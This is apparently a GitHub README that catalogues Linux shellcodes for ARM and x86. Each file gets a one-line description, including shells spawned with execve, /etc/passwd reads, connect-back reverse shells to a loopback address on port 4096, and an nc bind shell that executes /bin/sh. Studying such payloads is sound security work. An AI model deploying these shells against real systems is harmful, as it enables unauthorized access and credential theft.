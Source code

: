shellcodes-linux
================

Collection of Linux shellcodes


**arm_bash.asm**
execve("/bin/bash", ["/bin/bash", "-p"], NULL);

**arm_sh.asm**
execve("/bin/sh", ["/bin/sh"], NULL);

**x86_bash.asm**
execve("/bin/bash", ["/bin/bash"], NULL);

**x86_cat.asm**
execve("/bin/cat", ["/bin/cat", "key"], NULL);

**x86_cat_syscall.asm**
cat "/etc/passwd", with read()/write() syscalls

**x86_connectback.asm**
connect back to 127.0.0.1:4096 + execve "/bin/sh"

**x86_connectback_ipv6.asm**
connect back to [::1]:4096 + execve "/bin/sh"

**x86_hello.asm**
write(1, "Hello!!!\n" 9);

**x86_ls_syscall.asm**
list "." directory with getdents() syscall

**x86_nc.asm**
execve("/bin/nc", "/bin/nc", "-p", "4096", "-vve", "/bin/sh");